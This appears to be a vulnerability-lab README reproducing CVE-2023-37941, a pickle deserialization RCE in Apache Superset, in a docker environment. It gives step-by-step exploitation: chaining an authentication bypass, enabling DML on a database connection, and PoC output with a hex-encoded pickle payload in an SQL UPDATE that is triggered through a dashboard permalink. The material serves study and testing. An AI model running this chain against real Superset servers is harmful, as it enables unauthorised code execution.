 # Apache Superset Python Pickle Deserialization Leads to RCE (CVE-2023-37941)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Superset is an open-source data exploration and visualization platform designed to be visual, intuitive, and interactive.

Apache Superset versions from 1.5 to 2.1.0 contain a Python Pickle deserialization vulnerability (CVE-2023-37941). The application uses Python's `pickle` package to store certain configuration data in the metadata database. An authenticated user with write access to the metadata database can insert a malicious pickle payload, which when deserialized by the application, leads to remote code execution on the Superset server.

When combined with [CVE-2023-27524](../CVE-2023-27524), an unauthenticated attacker can achieve remote code execution by first bypassing authentication and then exploiting the deserialization vulnerability.

References:

- <https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/>
- <https://github.com/Barroqueiro/CVE-2023-37941>
- <https://forum.butian.net/share/2458>

## Environment Setup

Execute the following command to start an Apache Superset 2.0.1 server:

```
docker compose up -d
```

After the server is started, you can access Superset at `http://your-ip:8088`. The default login credentials are admin/vulhub.

## Vulnerability Reproduction

The following steps assume you have already generate a valid session cookie and logged into the Dashboard through the [CVE-2023-27524](../CVE-2023-27524) vulnerability.

First, create a new "Dashboard" and generate a permalink by clicking the "Share" button, copy this permalink and we will use it later:

![](1.png)

Then, create a new "Database" connection by following the steps below:

1. Navigate to "Data" → "Databases" in the Superset UI
2. Click "+ Database" to add a new database connection
3. Enter a name for the database (e.g., "SQLite")
4. For the SQLAlchemy URI, use: `sqlite+pysqlite:////app/superset_home/superset.db`
5. Expand "Advanced" and check "Expose in SQL Lab" and "Allow DML"
6. Save the database configuration

![](2.png)

![](3.png)

Then, use [CVE-2023-37941.py](CVE-2023-37941.py) to generate a malicious SQL command (the `-d` option can be `sqlite`, `mysql`, or `postgres`, means the database type of the Superset server, here is `sqlite` in Vulhub):

```shell
$ python3 CVE-2023-37941.py -c "touch /tmp/success" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvc3VjY2VzcwpwMQp0cDIKUnAzCi4=

[+] Hex encoded payload (for SQL):
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f737563636573730a70310a7470320a5270330a2e' where resource='dashboard_permalink';
```

> [!NOTE]
> Because the `pickle` deserialization payload is different for different operating systems, you need to run the POC on Linux or MacOS.

Execute the generated SQL command in the SQL Lab:

![](4.png)

Finally, trigger the deserialization by accessing the permalink:

![](5.png)

As you can see, the `touch /tmp/success` command has been executed successfully.

